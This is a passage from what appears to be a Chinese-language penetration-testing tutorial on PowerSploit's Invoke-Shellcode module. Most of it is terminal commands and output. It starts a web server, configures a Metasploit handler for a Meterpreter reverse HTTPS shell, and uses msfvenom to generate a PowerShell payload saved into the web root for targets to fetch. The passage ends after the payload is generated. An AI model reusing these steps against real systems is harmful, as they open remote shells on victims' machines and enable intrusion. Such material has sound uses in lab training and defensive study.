 ### 2、powersploit常用脚本模块攻击

#### 1、Invoke-Shellcode

1.1 CodeExecution模块下的Invoke-Shellcode脚本常用于将Shellcode插入指定的进程ID或本地PowerShell中

设置监听

```zsh
┌──(root💀kali)-[~/桌面]
└─# service apache2 start #开启apache服务
┌──(root💀kali)-[~/桌面]
└─# msfconsole            #启动msf模块
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_https
payload => windows/meterpreter/reverse_https
msf6 exploit(multi/handler) > set LHOST 192.168.160.129 #本地IP
LHOST => 192.168.160.129
msf6 exploit(multi/handler) > set LPORT 4444 #监听端口
LPORT => 4444
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------
Payload options (windows/meterpreter/reverse_https):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.160.129  yes       The local listener hostname
   LPORT     4444             yes       The local listener port
   LURI                       no        The HTTP Path
Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target
msf6 exploit(multi/handler) > run
[*] Started HTTPS reverse handler on https://192.168.160.129:4444

```

生成脚本

```zsh
┌──(root💀kali)-[~/桌面]
└─# msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.160.129 LPORT=4444 -f powershell -o /var/www/html/test
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 627 bytes
Final size of powershell file: 3095 bytes
Saved as: /var/www/html/test
```
